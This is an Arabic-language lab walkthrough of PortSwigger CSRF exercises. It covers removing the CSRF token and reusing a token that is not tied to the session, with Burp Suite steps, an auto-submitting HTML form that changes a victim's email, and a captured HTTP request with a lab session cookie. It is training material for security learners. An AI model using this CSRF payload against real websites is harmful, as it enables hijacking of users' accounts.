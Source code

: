 1. **افتح متصفح Burp وسجل دخولك لحسابك.**
2. **ابعت فورم "تحديث الإيميل"، وبعدها دور على الطلب في Proxy history.**
3. **ابعت الطلب لـ Burp Repeater، وغير قيمة `csrf`، هتلاحظ إن الطلب بيرفض التغيير.**
4. **احذف `csrf` بالكامل من الطلب، وجرب ترفعه تاني، هتلاقي إنه اتقبل بدون مشاكل!**
5. **لو معاك Burp Suite Professional:**
   - اضغط **كليك يمين** على الطلب.
   - اختر **Engagement tools / Generate CSRF PoC**.
   - فعل خيار **auto-submit script** واضغط **Regenerate**.

6. **لو بتستخدم Burp Suite Community Edition:** استخدم الكود ده:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

7. **روح لسيرفر الاستغلال (Exploit Server):**
   - حط كود **HTML** في خانة **Body**.
   - دوس على **Store**.

8. **جرب الاستغلال بنفسك:**
   - دوس على **View exploit**.
   - راجع الطلبات والردود اللي طلعت بعد تشغيله.

9. **حل المعمل:**
   - غير الإيميل في كود الاستغلال بحيث ميبقاش نفس بتاعك.
   - دوس على **Deliver to victim** لحل التمرين.
---
# [**CSRF Token Not Tied to User Session**](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

بعض التطبيقات **لا تربط CSRF Token بجلسة المستخدم**، وبدلًا من ذلك، تحتفظ بمجموعة عامة من التوكنات الصالحة التي يمكن لأي حساب استخدامها.

في الحالة دي، المهاجم يقدر **يسجل دخول بحسابه الشخصي، يحصل على CSRF Token صالح، وبعدها يستخدمه لاستهداف حساب الضحية وتنفيذ هجوم CSRF!**

---

### **📌 شكل الريكويست:**
```http
POST /my-account/change-email HTTP/2
Host: 0a150091042d75e880c50d8800870066.web-security-academy.net
Cookie: session=QgG3AaBSwvw8BEtlbdlAR7mZNae7UV9y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0a150091042d75e880c50d8800870066.web-security-academy.net
Referer: https://0a150091042d75e880c50d8800870066.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```